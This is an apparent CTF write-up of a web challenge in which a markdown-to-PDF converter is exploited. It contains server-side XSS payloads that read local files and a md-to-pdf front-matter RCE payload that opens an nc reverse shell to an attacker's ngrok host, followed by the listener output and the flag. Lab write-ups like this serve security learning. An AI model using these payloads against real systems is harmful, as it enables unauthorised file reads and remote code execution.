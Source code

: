 ```yaml
---
title: Odyssey CTF - Mythic PDF Forge
date: Sun Jul 23 04:43:32 PM +04 2023
categories: [Writeup]
tags: [ctf,hsctf2023,web]
---
```


## Description

We as developers love markdown but our non dev friends don't. **Convert Your Markdown to PDF** and send them easily :)

To access the challenge, click on the following link:  <http://challenges.hackrocks.com:33333/>

### Analysis

We are given application that converts markdown to pdf, so let's try using `script` tags to do something.

![mystic-pdf-forge-1](/assets/images/hackrocks/odyssey/2023/mystic-pdf-forge-1.png)

Generated PDF content: 

![mystic-pdf-forge-2](/assets/images/hackrocks/odyssey/2023/mystic-pdf-forge-2.png)

Nice, there's no sanitazation on markdown so we can do whatever.<br>
HackerTricks has useful stuff for us [Server Side XSS Dynamic PDF](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf).

I used discovery payload `<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>` to see what files are there.

![mystic-pdf-forge-3](/assets/images/hackrocks/odyssey/2023/mystic-pdf-forge-3.png)

We dont get information about what files are listed in directory. So let's try guessing. There's a standard to name application file `index.js` or `app.js`.

```html
<script>
    document.write(`
    <iframe 
        src="${window.location.href}/index.js" 
        style="position:fixed; top:0; left:0; width:100%; height:100%; z-index:1;">
    </iframe>
    `) 
</script>
```

0w0

![mystic-pdf-forge-4](/assets/images/hackrocks/odyssey/2023/mystic-pdf-forge-4.png)

We identifed that `md-to-pdf` is being used, and quick google search shows us [RCE vulnerability](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880). Let's not jump straight to exploit, let's first find version of packages. Node stores module versions in `package.json`

```html
<script>
    document.write(`
    <iframe 
        src="${window.location.href}/package.json" 
        style="position:fixed; top:0; left:0; width:100%; height:100%; z-index:1;">
    </iframe>
    `) 
</script>
```

![mystic-pdf-forge-5](/assets/images/hackrocks/odyssey/2023/mystic-pdf-forge-5.png)

We are good to proceed. Let's get shell! 0w0

## Solution

___Simple:___ 

```html
<script>
document.write(`<iframe src="${window.location.href}/flag.txt"></iframe>`)
</script>
```

___Fun!___ (Idk I just wanted to try getting shell from remote machine to local, ~~real life scenario?)

We need 2 things:
1. Listener - simple netcat will do
2. Server - to let challenge server connect to us. netcat opens port locally, we need globally and [ngrok](https://ngrok.com) can do it for us. 

```bash
$ nc -lvnp <port> # Terminal 1

$ ngrok tcp <port> # Terminal 2
```

![mystic-pdf-forge-6](/assets/images/hackrocks/odyssey/2023/mystic-pdf-forge-6.png)

Create reverse shell. I generated it using [revshells](https://www.revshells.com). (I couldnt make `sh` shell work, so I ended up with netcat shell payload)

```html
---js
((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ngrok_server> <ngrok_port> >/tmp/f"))
---
```

Server hangs and boom! we get a shell. Pretty cool for first time experience.

```bash
└─$ nc -lvnp 4444 # Local Port Can Be Anything You Want
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48168
sh: cant access tty; job control turned off
/app $ ls
Dockerfile
deploy-dcompose.sh
deploy-docker.sh
docker-compose.yml
flag.txt
index.html
index.js
node_modules
package-lock.json
package.json
pnpm-lock.yaml
public
views
/app $ cat flag.txt
flag{un1esh_t4e_f0rge_666f726765} 
```

> Flag flag{un1esh_t4e_f0rge_666f726765} 
{: .prompt-tip }